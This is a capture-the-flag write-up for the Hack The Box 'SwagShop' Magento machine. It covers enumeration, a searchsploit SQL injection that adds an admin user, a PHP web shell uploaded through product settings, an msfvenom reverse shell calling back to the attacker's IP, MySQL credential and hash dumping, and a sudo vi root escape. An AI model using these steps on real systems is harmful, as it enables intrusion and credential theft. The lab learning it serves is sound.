









# SwagShop
SwagShop on HTB.

## Take-Aways
* With admin web app creds, always look to update settings to allow upload of malicious file types and discover where they are uploaded to.

## Enumeration
Enumeration done with `nmapAutomator` to find initial ports, (22,80) the `gobuster` and `nikto` to enumerate the web application. After inspection, it appears to be a magento online store. Looking over some of the files discovered via directory enumeration it looked to be version 1.9. Found the tool [magescan](https://github.com/steverobbins/magescan.git) which was able to enumerate the version to be 1.9. Furthermore, it enumerate the database username and password.

### gobuster
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.10.140/ -x .php,/,.html,.xml -s '200,204,301,302,403,500'
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,403,500
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,/,html,xml
[+] Timeout:        10s
===============================================================
2021/01/16 22:18:35 Starting gobuster
===============================================================
/media (Status: 301)
/index.php (Status: 200)
/includes (Status: 301)
/install.php (Status: 200)
/lib (Status: 301)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/LICENSE.html (Status: 200)
/var (Status: 301)
/errors (Status: 301)

```
### nikto
```bash
nikto -h http://10.10.10.140/ 
```

### magescan
```bash
wget https://github.com/steverobbins/magescan/releases/download/v1.12.9/magescan.phar

php magescan.phar scan:all http://10.10.10.140
```


###

## Exploitation
Searching through `searchsploit`, there are several exploits targeting magento 1.9.

Working through the exploits for the version, one at a time.

### 37811.py
This exploit is authenticated RCE. Tested making a test user on the system and it worked (e.g. did not require email verification) so this exploit might be possible.

First issue with the exploit is running python2 on modern kali. Had to manually install several of the dependencies as seen below.

```bash
# install pip
curl https://bootstrap.pypa.io/get-pip.py --output get-pip.py

python2 get-pip.py

pip instal virtualenv

python2 -m virtualenv venv

source venv/bin/activate

# install the dependencies
pip install mechanize
```

The code requires a username and password to be hardcoded into the beginning of the script. In testing, it was discovered there was an issue with the submission form related to the password. This was done after the modification for the username at line 53
```python
br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.new_control('text', 'login[password]', {'value': password})  # Had to manually add username control.
br.form.fixup()
```

However, even after the fix, the exploit did not work as expected.


Looking through the code and trying to get it to execute manually, it seems that the exploit logs in with the provided usernames and passwords in the script file then attempts to construct a dynamic query with command injection present. Reading through the exploit, there is an ajax URL it pulls from the login redirect page. Manually running this through burp and inspecting the redirect source code (as captured in burp) only had one reference to ajax, and it was not the full string referenced in the script. This exploit appears to no work for this version.

### 37977.py
This exploit uses an SQL injection to add an administrative user to the system. The script only requires modification to specify the correct host to target. After this was done, it was found to work against the target. The exploit adds the administrative user forme with password forme.


Now, the next step will be to use the administrative access to leverage a web shell. Being lazy, and not wanting to poke around for hours to days in UI, some googling was done with some ideas to try out for this access.

1. Modify/Create a product with a malicious image file (php shell embedded into it in what ever fields are available, or appended to the end), using a double file extension then a direct object reference with a NULL byte `%00` to facilitate code execution.
2. Injection via custom email templates.
3. Adding a custom field for a product which would allow uploading of files, which can have the php file type whitelisted during the setup.

Item 1 was found problematic because the file upload dialogues are flash applets. This approach was abandoned due to the difficulty in setting up flash since its deprecation. This method was documented in several blogs online [here](https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/), [here](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/), and [here](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper).

As for item 2, there seemed to be no way to inject PHP in a the template where the file extension could be controlled and referenced via a direct object reference. Some indirect references were found however due to the lack of extension, code execution could not be triggered.

Item 3 proved to be the winner of the identified methods. This was executed by modifying one of the products to accept and upload of extension PHP which could then be accessed via a direct object reference to trigger code execution. Discovery of the direct object required some recon and investigation into the endpoints discovered via `gobuster`.

Edit the product to allow the upload of the php script. 

To verify, a `phpinfo` script was uploaded to verify execution.

Uploaded the image in the cart, committing it to the web app.

Upload directory discovered by exploring the directories discovered via `gobuster` during enumeration phase.

And finally, code execution


Once verified a new reverse shell was generated via `msfvenom`

```bash
msfvenom -p php/reverse_php LHOST=10.10.15.15 LPORT=4040 -o shell.php
```

And a reverse shell to receive

```bash
nc -nlvp 4040
```

And a reverse shell was obtained.


And the flag can be recovered


### Revisiting 37811.py
Some additional research online (some items referencing this specific box as well), indicates that this exploit is usable here. Issue before was it did not indicate it targets the administrative interface in any of its notes. It was tested against the 'store user' login interface before and verified that the 'ajax' string it is searching for was not present on the returned page; required to continue the exploit for the script. This was again tried targeting the admin interface (`index.php/admin`). The script advanced further, however the last stage, setting up the `tunnel`, did not work. The tag it was looking for on the response page was verified as not present. 

TODO - Test this further based on the offical writeups.

## Privilege Escalation
As seen in the above screenshot, the shell landed (as expected) as user `www-data`. Doing some of the basic enumeration of the host reveals the running processes (`ps -ef --forest`), the other listening network services (`netstat -tupan`) and kernel version (`uname -a`). Based on these basic steps, it can be seen that mysql is running. Earlier, in `http://10.10.10.140/app/etc/local.xml`, the database root password was obtained. This can be used to pillage additional information out of the database `swagshop`.

### MYSQL
Mysql was numerated with the mysql binary and pulling off the admin users with their username and password hashes.

```bash
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; show tables;" | grep user
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; describe admin_user;"
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; select username,password FROM admin_user;"
username	password
haris	8512c803ecf70d315b7a43a1c8918522:lBHk0AOG0ux8Ac4tcM1sSb1iD5BNnRJp
forme	0a8335493c9fccd648ba53c601e3d67c:rp
```

Doing some research on google, the hash format is `HASH:SALT` and the hash is generated via `MD5(salt+password)`. Taking these and tossing into `hashcat` to try and crack for additional credentials with the rockyou wordlist.

```
hashcat.exe -m20 -a0 swag_hashes.txt rockyou.txt
```

The crack session finished quickly and did not uncover a password for the user `haris`. Several other wordlists were cycled in and not results still. Seems this password was not meant to be part of the process.

### LinEnum
Time to do an indepth assessment of the hosts. The host does not have internet access so `LinEnum.sh` will need to side loaded into the machine. While it was downloading, the basic user capabilities were enumerated via the etc file by checking access to `passwd`, `shadow` and `sudoers`. Suprisingly, `sudoers` has some very useful information.



The file indicates the current user (`www-data`) can run `vi` with no password as root as long as it is targeting the `/var/www/html` folder. `vi` has the [ability to break out into a shell](https://gtfobins.github.io/gtfobins/vi/#sudo), so all that is required is to run the command below to break out into a root shell.

```bash
sudo /usr/bin/vi /var/www/html/test.sh
:!sh
```

